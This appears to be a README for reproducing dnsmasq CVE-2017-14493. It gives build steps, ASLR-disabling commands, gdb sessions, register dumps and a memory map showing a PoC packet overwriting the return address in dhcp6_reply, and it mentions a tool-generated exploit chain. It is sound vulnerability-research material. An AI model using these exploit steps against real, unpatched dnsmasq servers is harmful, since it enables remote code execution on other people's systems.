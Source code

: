 # dnsmasq CVE-2017-14493

The following description can be used to build the vulnerable dnsmasq binary and reproduce the stack buffer overflow by overwriting the return address by `0x1337DEADBEEF`.

Tested in Ubuntu 18.04 vm.
### Build the binary using docker

The create the docker container and get the binary, execute:

`./build.sh && ./create_n_copy.sh`

If built correctly, `dnsmasq` folder containing the dnsmasq binary will appear in the current working directory.

### Run dnsmasq and trigger the overflow

First, disable aslr

```
sudo sysctl kernel.randomize_va_space=0
```

Next start gdb be able to debug dnsmasq

```
cd dnsmasq
sudo gdb dnsmasq
```

In gdb then set the following parameters:

```
(gdb) set args --no-daemon --dhcp-range=fd00::2,fd00::ff
```

Start execution in gdb:

```
(gdb) r
Starting program: /usr/local/sbin/dnsmasq --no-daemon --dhcp-range=fd00::2,fd00::ff
dnsmasq: started, version 2.77 cachesize 150
...
...
```

Note: In case port 53 is already in use, simply execute `sudo systemctl stop systemd-resolved`

Then use the python script to trigger the overflow

```
$ python2 poc.py ::1 547
[+] sending 128 bytes to ::1:547
```

gdb will output the following:

```
Program received signal SIGSEGV, Segmentation fault.
0x00001337deadbeef in ?? ()
...
```

### gdb output before rip overwrite

```
(gdb) b *0x555555587dfb
Breakpoint 2 at 0x555555587dfb: file rfc3315.c, line 108.
(gdb) c
Continuing.

Breakpoint 2, 0x0000555555587dfb in dhcp6_reply (context=<optimized out>, interface=<optimized out>, iface_name=<optimized out>, 
    fallback=<optimized out>, ll_addr=<optimized out>, ula_addr=<optimized out>, sz=128, client_addr=0x7fffffffe148, 
    now=1613494794) at rfc3315.c:108
108    }
(gdb) x/10wx $rsp
0x7fffffffe0e8:    0xdeadbeef    0x00001337    0x00000080    0x00000000
0x7fffffffe0f8:    0xffffe148    0x00007fff    0x602bfa0a    0x00000000
0x7fffffffe108:    0x55582dce    0x00005555
(gdb) info reg
rax            0x223    547
rbx            0x4141414141414141    4702111234474983745
rcx            0x0    0
rdx            0x5a    90
rsi            0x26    38
rdi            0x22    34
rbp            0x4141414141414141    0x4141414141414141
rsp            0x7fffffffe0e8    0x7fffffffe0e8
r8             0x7fffffffe0e0    140737488347360
r9             0x0    0
r10            0x5555557a5b96    93824994663318
r11            0x7ffff7b9ee60    140737349545568
r12            0x4141414141414141    4702111234474983745
r13            0x4141414141414141    4702111234474983745
r14            0x4141414141414141    4702111234474983745
r15            0x4141414141414141    4702111234474983745
rip            0x555555587dfb    0x555555587dfb <dhcp6_reply+283>
eflags         0x206    [ PF IF ]
cs             0x33    51
ss             0x2b    43
ds             0x0    0
es             0x0    0
fs             0x0    0
gs             0x0    0
(gdb) x/8bx $rsp
0x7fffffffe0e8:    0xef    0xbe    0xad    0xde    0x37    0x13    0x00    0x00
```

Memory layout:

```
(gdb) info proc map
process 7121
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
      0x555555554000     0x55555559f000    0x4b000        0x0 /usr/local/sbin/dnsmasq
      0x55555579e000     0x5555557a1000     0x3000    0x4a000 /usr/local/sbin/dnsmasq
      0x5555557a1000     0x5555557a3000     0x2000    0x4d000 /usr/local/sbin/dnsmasq
      0x5555557a3000     0x5555557c4000    0x21000        0x0 [heap]
      0x7ffff71a0000     0x7ffff71ab000     0xb000        0x0 /lib/x86_64-linux-gnu/libnss_files-2.27.so
      0x7ffff71ab000     0x7ffff73aa000   0x1ff000     0xb000 /lib/x86_64-linux-gnu/libnss_files-2.27.so
      0x7ffff73aa000     0x7ffff73ab000     0x1000     0xa000 /lib/x86_64-linux-gnu/libnss_files-2.27.so
      0x7ffff73ab000     0x7ffff73ac000     0x1000     0xb000 /lib/x86_64-linux-gnu/libnss_files-2.27.so
      0x7ffff73ac000     0x7ffff73b2000     0x6000        0x0 
      0x7ffff73b2000     0x7ffff73c9000    0x17000        0x0 /lib/x86_64-linux-gnu/libnsl-2.27.so
      0x7ffff73c9000     0x7ffff75c8000   0x1ff000    0x17000 /lib/x86_64-linux-gnu/libnsl-2.27.so
      0x7ffff75c8000     0x7ffff75c9000     0x1000    0x16000 /lib/x86_64-linux-gnu/libnsl-2.27.so
      0x7ffff75c9000     0x7ffff75ca000     0x1000    0x17000 /lib/x86_64-linux-gnu/libnsl-2.27.so
      0x7ffff75ca000     0x7ffff75cc000     0x2000        0x0 
      0x7ffff75cc000     0x7ffff75d7000     0xb000        0x0 /lib/x86_64-linux-gnu/libnss_nis-2.27.so
      0x7ffff75d7000     0x7ffff77d6000   0x1ff000     0xb000 /lib/x86_64-linux-gnu/libnss_nis-2.27.so
      0x7ffff77d6000     0x7ffff77d7000     0x1000     0xa000 /lib/x86_64-linux-gnu/libnss_nis-2.27.so
      0x7ffff77d7000     0x7ffff77d8000     0x1000     0xb000 /lib/x86_64-linux-gnu/libnss_nis-2.27.so
      0x7ffff77d8000     0x7ffff77e0000     0x8000        0x0 /lib/x86_64-linux-gnu/libnss_compat-2.27.so
      0x7ffff77e0000     0x7ffff79e0000   0x200000     0x8000 /lib/x86_64-linux-gnu/libnss_compat-2.27.so
      0x7ffff79e0000     0x7ffff79e1000     0x1000     0x8000 /lib/x86_64-linux-gnu/libnss_compat-2.27.so
      0x7ffff79e1000     0x7ffff79e2000     0x1000     0x9000 /lib/x86_64-linux-gnu/libnss_compat-2.27.so
      0x7ffff79e2000     0x7ffff7bc9000   0x1e7000        0x0 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7bc9000     0x7ffff7dc9000   0x200000   0x1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7dc9000     0x7ffff7dcd000     0x4000   0x1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7dcd000     0x7ffff7dcf000     0x2000   0x1eb000 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7dcf000     0x7ffff7dd3000     0x4000        0x0 
      0x7ffff7dd3000     0x7ffff7dfc000    0x29000        0x0 /lib/x86_64-linux-gnu/ld-2.27.so
      0x7ffff7fe2000     0x7ffff7fe4000     0x2000        0x0 
      0x7ffff7ff7000     0x7ffff7ffa000     0x3000        0x0 [vvar]
      0x7ffff7ffa000     0x7ffff7ffc000     0x2000        0x0 [vdso]
      0x7ffff7ffc000     0x7ffff7ffd000     0x1000    0x29000 /lib/x86_64-linux-gnu/ld-2.27.so
      0x7ffff7ffd000     0x7ffff7ffe000     0x1000    0x2a000 /lib/x86_64-linux-gnu/ld-2.27.so
      0x7ffff7ffe000     0x7ffff7fff000     0x1000        0x0 
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0 [stack]
  0xffffffffff600000 0xffffffffff601000     0x1000        0x0 [vsyscall]
```

## Vulnerability:

in file `src/rfc3315.c:206`:

```
  /* RFC-6939 */
  if ((opt = opt6_find(opts, end, OPTION6_CLIENT_MAC, 3)))
    {
      state->mac_type = opt6_uint(opt, 0, 2);
      state->mac_len = opt6_len(opt) - 2;
      memcpy(&state->mac[0], opt6_ptr(opt, 2), state->mac_len);
    }
```

## Bug Testing / Verify chain generated by tool:

### Setup:

Ubuntu 18.04 vm:

Disable ASLR and enable coredumps:
```
sudo sysctl kernel.randomize_va_space=0
ulimit -c unlimited     # make sure to issue this command in the same shell where dnsmasq_binary will be executed
sudo sysctl -w kernel.core_pattern=/tmp/core.%u.%p.%t
```

For gdb:
```
user@user-VirtualBox:~/targets$ cat ~/.gdbinit
set disassembly-flavor intel
unset env LINES
unset env COLUMNS
``` 

Start gdb via
```
sudo gdb ./dnsmasq_binary
```

In gdb (optionally set breakpoint (this will prevent from shell interaction though: `b *0x555555587dfb`)): 
```
set args --no-daemon --dhcp-range=fd00::2,fd00::ff
r
``` 

Start poc with payload:
```
python2.7 poc_chain.py ::1 547 stack.bin
```

### Outside of GDB:

(`rsp` is slightly of by 0x30 due to some env stuff)

```
sudo ./dnsmasq_binary --no-daemon --dhcp-range=fd00::2,fd00::ff
```

in another terminal:

```
python2.7 poc_chain.py ::1 547 stack.bin
```

